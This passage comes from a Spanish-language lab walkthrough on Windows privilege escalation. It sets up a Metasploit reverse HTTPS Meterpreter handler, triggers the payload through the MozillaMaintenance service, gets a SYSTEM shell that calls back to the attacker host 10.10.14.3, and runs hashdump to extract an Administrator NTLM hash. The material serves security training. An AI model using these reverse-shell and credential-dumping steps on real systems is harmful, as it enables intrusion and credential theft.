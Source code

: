 ```shell-session
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run commands from a file

[*] Processing handler.rc for ERB directives.
resource (handler.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (handler.rc)> set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
resource (handler.rc)> set LHOST 10.10.14.3
LHOST => 10.10.14.3
resource (handler.rc)> set LPORT 8443
LPORT => 8443
resource (handler.rc)> exploit
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
```

#### Comenzando el servicio

Iniciar el servicio y debemos obtener una sesión como`NT AUTHORITY\SYSTEM`.

  Exploits de núcleo

```cmd-session
C:\htb> net start MozillaMaintenance 

The service is not responding to the control function

More help is available by typing NET HELPMSG 2186
```

#### Recibir una sesión de meterpreter

Recibiremos un error tratando de iniciar el servicio, pero aún recibiremos una devolución de llamada una vez que se ejecute el Meterpreter Binary.

  Exploits de núcleo

```shell-session
[*] Started HTTPS reverse handler on https://10.10.14.3:8443
[*] https://10.10.14.3:8443 handling request from 10.129.43.13; (UUID: syyuxztc) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.3:8443 -> 10.129.43.13:52047) at 2021-05-14 13:38:55 -0400


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-WS02
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 6
Meterpreter     : x64/windows


meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```